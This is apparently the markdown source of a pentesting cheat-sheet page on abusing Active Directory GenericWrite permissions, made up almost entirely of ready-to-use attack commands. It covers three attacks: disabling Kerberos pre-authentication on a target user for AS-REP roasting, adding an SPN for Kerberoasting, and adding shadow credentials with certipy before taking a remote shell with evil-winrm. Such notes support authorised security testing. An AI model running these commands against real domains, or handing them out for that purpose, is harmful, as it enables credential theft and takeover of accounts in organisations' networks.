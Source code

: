 ```yaml
---
title: "GenericWrite"
date: 2024-7-13
tags: ["GenericWrite", "active driectory", "ad", "Windows"]
---
```


---
### Abuse #1 : Add UF_DONT_REQUIRE_PREAUTH bit to target user

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView.ps1 

<div>

```powershell
. .\PowerView.ps1
```

</div>

#### 2. Check target user

<div>

```powershell
Get-DomainUser <TARGET_USER> | ConvertFrom-UACValue
```

</div>

#### 3. Add UF_DONT_REQUIRE_PREAUTH bit

<div>

```powershell
Set-DomainObject -Identity <TARGET_USER> -XOR @{useraccountcontrol=4194304} -Verbose
```

</div>

#### 4. AS-REP Roasting

<div>

```bash
# In local linux machine
impacket-GetNPUsers <DOMAIN>/<USER> -no-pass -dc-ip <DC>
```

</div>

{{< /tabcontent >}}

<br>

---

### Abuse #2 : Kerberoasting by adding spn

{{< tab set2 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import PowerView.ps1

<div>

```powershell
. .\PowerView.ps1
```

</div>

#### 2. Create cred object (runas) \[optional\]

<div>

```powershell
$username = "<DOMAIN>\<USER>"
```

```powershell
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
```

```powershell
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

</div>

#### 3. Add SPN

<div>

```powershell
# Add spn (e.g. MSSQL)
setspn -a MSSQLSvc/example.com:1433 <DOMAIN>\<TARGET_USER>
```

```powershell
# Check
Get-DomainUser <TARGET_USER> | Select serviceprincipalname
```

</div>

#### 4. Get SPN

<div>

```powershell
Get-DomainSPNTicket -SPN "MSSQLSvc/example.com:1433" -Credential $Cred
```

</div>

{{< /tabcontent >}}

<br>

---

### Abuse #3: Add shadow credentials

{{< tab set3 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set3 tab1 >}}

<div>

```bash
# Request a ticket
kinit <USER>
```

```bash
# Import ticket
export KRB5CCNAME=/tmp/krb5cc_1000
```

```bash
# Pre-check (Optional)
certipy-ad find -username <USER>@<DOMAIN> -k -target <TARGET_DOMAIN>
```

```bash
# Add shadow credentials
certipy-ad shadow auto -username <USER>@<DOMAIN> -account <TARGET_USER> -k -target <TARGET_DOMAIN>
```

```bash
# Remote with kerberos
KRB5CCNAME=./<TARGET_USER>.ccache evil-winrm -i <TARGET_DOMAIN> -r <DOMAIN>
```

</div>

{{< /tabcontent >}}

<br>